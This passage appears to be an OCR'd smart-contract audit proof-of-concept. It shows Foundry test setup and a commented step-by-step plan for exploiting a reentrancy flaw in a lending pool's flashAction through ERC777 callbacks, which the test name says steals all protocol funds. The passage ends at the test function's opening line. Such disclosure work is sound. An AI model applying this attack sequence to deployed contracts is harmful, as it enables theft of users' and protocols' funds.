             // Deploy action handler
            vm.prank(users.creatorAddress);
            actionHandler = new ActionHandler(address(liquidator), address(proxyAccount));
    
            // Set origination fee
            vm.prank(users.creatorAddress);
            pool.setOriginationFee(100); // 1%
    
            // Transfer some tokens to actiontarget to perform liquidation repayment and approve tokens to be transferred to pool 
            vm.startPrank(users.liquidityProvider);
            mockERC20.token777.transfer(address(actionHandler), 1 ether);
            mockERC20.token777.approve(address(pool), type(uint256).max);
    
            // Deposit 100 erc777 tokens into pool
            vm.startPrank(address(srTranche));
            pool.depositInLendingPool(100 ether, users.liquidityProvider);
            assertEq(mockERC20.token777.balanceOf(address(pool)), 100 ether);
    
            // Approve creditor from actiontarget for bid payment
            vm.startPrank(address(actionHandler));
            mockERC20.token777.approve(address(pool), type(uint256).max);
    
        }
    
        /////////////////////////////////////////////////////////////////
        //                           POC                               //
        /////////////////////////////////////////////////////////////////
        /// @notice Test exploiting the reentrancy vulnerability. 
        /// Prerequisites:
        /// - Create an actionTarget contract that will trigger the attack flow using the ERC777 callback when receiving the 
        ///   borrowed funds in the flash action.
        /// - Have some liquidity deposited in the pool in order to be able to borrow it
        /// Attack:
        /// 1. Open a margin account in the creditor to be exploited.
        /// 2. Deposit a small amount of collateral. This amount needs to be big enough to cover the `minUsdValue` configured
        /// in the registry for the given creditor.
        /// 3. Create the `actionData` for the account's `flashAction()` function. The data contained in it (withdrawData, transferFromOwnerData,
        /// permit, signature and actionTargetData) can be empty, given that such data is not required for the attack.
        /// 4. Trigger LendingPool.flashAction(). The execution flow will:
        ///     a. Mint the flash-actioned debt to the account
        ///     b. Send the borrowed funds to the action target
        ///     c. The action target will execute the ERC777 `tokensReceived()` callback, which will:
        ///        - Trigger Liquidator.liquidateAccount(), which will set the account in an auction state
        ///        - Trigger Liquidator.bid(). 
     
        function testVuln_reentrancyInFlashActionEnablesStealingAllProtocolFunds(
            uint128 amountLoaned,
            uint112 collateralValue,
            uint128 liquidity,
            uint8 originationFee
        ) public {   
    